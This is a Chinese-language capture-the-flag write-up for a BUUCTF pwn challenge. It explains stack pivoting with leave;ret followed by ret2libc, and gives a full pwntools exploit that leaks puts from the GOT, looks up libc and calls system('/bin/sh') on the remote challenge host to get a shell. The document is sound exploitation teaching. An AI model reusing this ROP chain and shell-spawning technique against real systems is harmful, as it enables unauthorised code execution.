

# W2 stack migration

## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  


由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
